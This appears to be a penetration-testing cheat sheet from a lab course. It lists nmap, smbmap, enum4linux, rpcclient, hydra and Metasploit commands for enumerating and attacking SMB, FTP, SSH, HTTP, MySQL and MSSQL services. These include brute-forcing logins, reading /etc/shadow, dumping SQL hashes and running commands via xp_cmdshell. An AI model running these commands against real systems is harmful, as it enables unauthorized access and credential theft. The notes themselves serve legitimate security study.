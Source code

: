 
<h4>Servers and Services</h4>
server is called a server because of what it does, it provides some sort of functionality specialized to that machine that can be utilized from other devices. The server can be running a windows operating system, a linux operating system or a macos server. Any computer could be a server depending on how you set it up. 

Servers needs to be accessed remotely. The services running on a server requires opening up a listening port on the server and accepting connections remotely


<h4>SMB</h4>
SMB(sever message block)

To Delete smb shares on a windows box
```
net use * /delete
```

To reconnect smb shares on a windows box. (smbserver_771) is the password
```
net use Z: \\10.4.17.133\c$ smbserver_771 /user:administrator
```

445, is the smb port you focus on if it is open.

To get the protocols smb is running
```
nmap -p445 --script smb-protocols 10.10.10.10 -v
```
To check the security mode
```
nmap -p445 --script smb-security-mode 10.10.10.10 -v
```
To enumerate sessions
```
nmap -p445 --script smb-enum-sessions 10.10.10.10 -v
```
To enumerate sessions with a username and password
```
nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate shares
```
nmap -p445 --script smb-enum-shares 10.10.10.10 -v
```
To Enumerate shares with a username and password
```
nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate users
```
nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate smb server statistics
```
nmap -p445 --script smb-enum-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate for domains
```
nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate for groups
```
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
To enumerate for services
```
nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
 To connect to smb and list files
 ```
 nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 -v
```
If the smb version is ```SMBv1``` we can use ```smbmap```
```
smbmap -u guest -p "" -d . -H 10.10.10.10
smbmap -u administrator -p smbserver_771 -d . -H 10.10.10.10
smbmap -u administrator -p smbserver_771 -d . -H 10.10.10.10 -x 'ipconfig'
//to get drives available
smbmap -u administrator -p smbserver_771 -d . -H 10.10.10.10 -L
//connecting to the c drive
smbmap -u administrator -p smbserver_771 -d . -H 10.10.10.10 -r 'C$'
//to download a file
smbmap -u administrator -p smbserver_771 -d . -H 10.10.10.10 --download 'C$\flag.txt'
```


***Linux SMB Enumeration***
For OS discovery
```
nmap 10.10.10.10 -p 445 --script smb-os-discovery
```
using ```nmblookup```
```
nmblookup -A 10.10.10.10
```
using ```rpcclient``` to get os version
```
//-U "" indicates a null session
rpcclient -U "" -N 10.10.10.10
>srvinfo
```
Using ```enum4linux``` to get os version
```
enum4linux -o 10.10.10.10 
```
using ```smbclient```
```
smbclient -L 10.10.10.10 -N
```
using ```enum4linux``` to fuzz for usernames
```
enum4linux -U 10.10.10.10
```
using ```rpcclient``` to fuzz for usernames
```
rpcclient -U "" -N 10.10.10.10
>enumdomusers
>lookupnames (username) //finds SID of users
```
using ```enum4linux``` to enumerate for shares
```
enum4linux -S 10.10.10.10
```
using rpcclient to enumerate for groups
```
rpcclient -U "" -N 10.10.10.10
>enumdomgroups
```




<h4>FTP</j4>
using nmap to bruteforce for creds
```
nmap 10.10.10.10 --script ftp-brute --script-args userdb=/path/to/user_list -p21
```
To bruteforce using hydra
```
hydra -L user.txt -P pass.txt ftp://10.10.10.10:21
```
To check for anonymous login
```
nmap 10.10.10.10 -p 21 --script ftp-anon
```




<h4>SSH</h4>
To connect to ssh
```
ssh student@10.10.10.10
```
Bruteforcing using nmap scripting engine
```
nmap 10.10.10.10 --script ssh-brute --script-args userdb=/path/to/user.txt -p22
```

>When using metasploit to bruteforce for passwords it is "userpass_file" if the wordlist istc has both the usename and the password. For example "root:password", "root:arcane"  etc





<h4>HTTP</h4>
Using browsh, this is used if you just have the cli
```
browsh --startup-url http://10.10.10.10/default.aspx
```
using nmap
```
nmap 10.10.10.10 -sV -p80 --script http-enum
```
Detecting webdav configuration
```
nmap 10.10.10.10 -sV -p80 --script http-webdav-scan --script-args http-methods.url-path=/webdav/
```



<h4>MySQL</h4>
Loading file on mysql
```
select load_file("/etc/shadow");
```
To know if empty password is allowed
```
nmap 10.10.10.10 -sV -p3306 --script=mysql-empty-password
```
To know writable dirs using metasploit
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
To know readable dirs using metasploit
```
use auxiliary/scanner/mysql/mysql_file_enum
```
Bruteforcing for creds
```
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://192.163.7.3
```



<h4>MSSQL</h4>
This is from Microsoft

For info on the server
```
nmap 10.10.10.10 -p1433 --script ms-sql-info
```
checking for ntlm info
```
nmap 10.10.10.10 -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
```
for bruteforcing
```
nmap 10.10.10.10 -p1433 --script ms-sql-brute --script-args userdb=/path/to/user_wordlist,passdb=/path/to/pass_wordlist
```
To check for empty passwords
```
nmap 10.10.10.10 -p1433 --script ms-sql-empty-password
```
To query
```
nmap 10.10.10.10 -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=admin,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
```
Dumping hashes
```
nmap 10.10.10.10 -p1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=admin
```
To see if we can run some actual code
```
nmap 10.10.10.10 -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=admin,ms-sql-xp-cmdshell.cmd="ipconfig"
```
Using metasploit
```
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mssql/mssql_enum
use auxiliary/scanner/mssql/mssql_hashdump
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts
```